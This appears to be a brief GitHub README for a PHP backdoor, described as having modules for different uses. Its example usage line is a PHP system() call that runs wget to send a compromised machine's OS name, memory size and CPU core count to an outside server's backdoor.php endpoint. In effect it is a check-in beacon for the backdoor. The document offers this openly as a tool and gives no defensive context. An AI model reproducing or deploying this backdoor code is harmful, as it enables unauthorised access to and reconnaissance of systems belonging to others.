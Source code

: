 # Backdoor
a simple backdoor made in php
Has different modules for different usage.


Example usage :- system("wget -qO \"/dev/null\" \"http://servername.xyz/backdoor.php?BlackdoorName=Nload&OS=$(cat /etc/*-release | grep NAME=\\\" | head -1 | cut -c 6- | tr \" \" \"-\")&Ram=$(grep MemTotal /proc/meminfo | cut -c 18- | tr \" \" \"-\")&Cores=$(grep -c ^processor /proc/cpuinfo | tr \" \" \"-\")\";")
